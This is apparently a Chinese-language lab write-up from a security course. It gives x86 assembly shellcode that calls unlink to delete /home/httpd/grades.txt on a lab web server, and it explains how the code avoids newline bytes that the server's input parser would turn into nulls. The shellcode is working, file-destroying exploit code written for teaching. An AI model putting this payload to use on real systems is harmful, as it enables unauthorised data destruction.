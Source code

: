 lab1 的要求是系统调用替换成 unlink，删除掉 /home/httpd/grades.txt 文件。先了解一下 unlink 这个系统调用：

```c
int unlink(const char *pathname);
```

只有一个参数，那比 execve 简单多了~ 修改后的 shellcode：

```assembly
#include <sys/syscall.h>

#define STRING    "/home/httpd/grades.txt"
#define STRLEN    22
#define PATHNAME  (STRLEN+1)

.globl main
    .type   main, @function

 main:
    jmp     calladdr

 popladdr:
    popl    %esi
    movl    %esi,(PATHNAME)(%esi) /* set up PATHNAME pointer to pathname */
    xorl    %eax,%eax             /* get a 32-bit zero value */
    movb    %al,(STRLEN)(%esi)    /* null-terminate our string */

    movb    $9,%al
    inc     %eax          /* syscall arg 1: syscall number */
                          /* 这里不用 $SYS_exit 立即数是因为 syscall number 为 10 */
                          /* 对应 ascii 码为 \n，在 http_read_line 处理时会替换成 0 */
    movl    %esi,%ebx     /* syscall arg 2: string pathname */
    int     $0x80         /* invoke syscall */

    xorl    %ebx,%ebx     /* syscall arg 2: 0 */
    movl    %ebx,%eax
    inc     %eax          /* syscall arg 1: SYS_exit (1), uses */
                          /* mov+inc to avoid null byte */
    int     $0x80         /* invoke syscall */

 calladdr:
    call    popladdr
    .ascii  STRING
```
{: file='shellcodes.S'}
